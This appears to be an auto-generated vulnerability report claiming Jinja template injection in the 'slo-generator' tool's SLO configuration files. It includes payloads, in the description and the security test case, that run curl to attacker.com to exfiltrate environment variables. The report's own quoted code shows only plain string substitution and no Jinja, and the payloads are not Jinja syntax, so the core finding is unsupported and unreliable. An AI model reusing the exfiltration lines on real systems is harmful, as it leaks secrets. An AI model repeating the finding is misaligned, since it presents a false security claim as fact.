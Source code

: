 ### Vulnerability 1: Jinja Template Injection in SLO Configurations

* Description:
    1. The `slo-generator` allows users to use environment variables within SLO configuration files using the `${MY_ENV_VAR}` syntax.
    2. This syntax is processed using Jinja templating engine as indicated by the code analysis below.
    3. If an attacker can control the content of SLO configuration files, they can inject malicious Jinja templates.
    4. When `slo-generator` processes the configuration, it renders these templates.
    5. If the Jinja environment is not properly sandboxed and if sensitive information or functions are accessible within the template context, an attacker could potentially exfiltrate data or even achieve remote code execution.
    6. For example, an attacker could inject a template like `${__import__('os').popen('curl attacker.com?data=$(env)').read()}` to execute arbitrary commands on the server or exfiltrate environment variables.

* Impact:
    * Information Disclosure: Attackers can exfiltrate sensitive information, including environment variables, configuration details, or data from the monitoring backend if accessible through the templating context.
    * Potential Remote Code Execution: In a worst-case scenario, if the Jinja environment is not properly sandboxed, attackers might be able to achieve remote code execution on the machine running `slo-generator`, potentially compromising the entire system.

* Vulnerability Rank: High

* Currently implemented mitigations:
    * None in the provided code files. The code explicitly mentions the use of environment variables in SLO configs but lacks input validation or sanitization for template injection.

* Missing mitigations:
    * Input validation and sanitization: Sanitize SLO configuration files to prevent injection of malicious Jinja templates. This could involve using a safe Jinja environment with limited functionalities and disallowing access to sensitive objects or functions.
    * Sandboxing Jinja environment: Run Jinja templating in a sandboxed environment with restricted access to potentially dangerous modules and functions.
    * Principle of least privilege: Ensure that the user running `slo-generator` has minimal necessary permissions to reduce the impact of potential RCE.

* Preconditions:
    * The attacker must have the ability to modify or provide SLO configuration files to the `slo-generator`. This could happen if:
        * SLO configuration files are stored in a publicly accessible location.
        * The attacker has write access to the configuration file storage.
        * The `slo-generator` API is exposed and allows arbitrary users to submit SLO configurations.

* Source code analysis:
    1. File: `/code/README.md`:
       - The documentation mentions: "***Note:*** *you can use environment variables in your SLO configs by using `${MY_ENV_VAR}` syntax to avoid having sensitive data in version control. Environment variables will be replaced automatically at run time.*" This confirms the feature exists.

    2. File: `/code/slo_generator/utils.py`:
       - The `parse_config` function and its helper `replace_env_vars` are responsible for handling environment variable substitution.
       - The `replace_env_vars` function uses regular expressions to find `${}` patterns and replaces them with environment variables from `ctx` (which defaults to `os.environ`).
       - **Vulnerability:**  The code directly substitutes environment variables into the YAML content without any sanitization or escaping, and the YAML is then loaded using `yaml.safe_load`. While `safe_load` mitigates some YAML deserialization vulnerabilities, it does not prevent Jinja template injection if the loaded content is later processed by a Jinja template engine, which is implied by the README documentation.

    ```python
    def parse_config(
        path: Optional[str] = None, content=None, ctx: os._Environ = os.environ
    ):
        ...
        if ctx:
            content = replace_env_vars(content, ctx) # Vulnerable code: Environment variables are directly substituted into content
        data = yaml.safe_load(content) # YAML is safely loaded, but the content might contain injected Jinja templates
        ...

    def replace_env_vars(content, ctx) -> str:
        """Replace env variables in content from context.
        ...
        """
        match = pattern.findall(content) # Find patterns like ${MY_ENV_VAR}
        if match:
            full_value = content
            for var in match:
                try:
                    full_value = full_value.replace(f"${{{var}}}", ctx[var]) # Vulnerable code: Direct string replacement without sanitization
                except KeyError as exception:
                    ...
            content = full_value
        return content
    ```

* Security test case:
    1. Create a malicious SLO configuration file (e.g., `malicious_slo.yaml`) with the following content:

    ```yaml
    apiVersion: sre.google.com/v2
    kind: ServiceLevelObjective
    metadata:
      name: malicious-slo
      labels:
        service_name: malicious
        feature_name: injection
        slo_name: exfiltration
    spec:
      description: SLO with Jinja template injection
      backend: cloud_monitoring # or any backend
      method: good_bad_ratio # or any method
      exporters: []
      service_level_indicator:
        filter_good: "project='${PROJECT_ID}' AND metric.type='${'__import__(\"os\").environ'}['PROJECT_ID']}'" # Malicious Jinja template to exfiltrate PROJECT_ID env variable
        filter_valid: "project='${PROJECT_ID}' AND metric.type='test'"
    goal: 0.99
    ```
    2. Set the environment variable `PROJECT_ID` to a sensitive value (e.g., `my-secret-project`).
    3. Run `slo-generator` with the malicious configuration and a valid shared configuration file:
       ```sh
       slo-generator compute -f malicious_slo.yaml -c samples/config.yaml
       ```
    4. Observe the output and logs. If the vulnerability is present, the `slo-generator` might attempt to execute the injected Jinja code. In a real exploit scenario, the attacker would redirect the output of the `os.environ` or other sensitive operations to an external server. In this test case, we can check if the `PROJECT_ID` environment variable is processed within the query.
    5. To further validate exfiltration, modify the malicious template to send data to an attacker-controlled server using `curl` or similar command injection within the Jinja template. For example, modify `filter_good` to:
       ```yaml
       filter_good: "project='${PROJECT_ID}' AND metric.type='${__import__('os').popen('curl http://attacker.com/?data=$PROJECT_ID').read()}'"
       ```
    6. Run the `slo-generator` again and check the attacker's server logs to see if the environment variable `PROJECT_ID` was successfully exfiltrated.

This test case demonstrates how an attacker can leverage Jinja template injection to potentially exfiltrate sensitive information by manipulating SLO configuration files.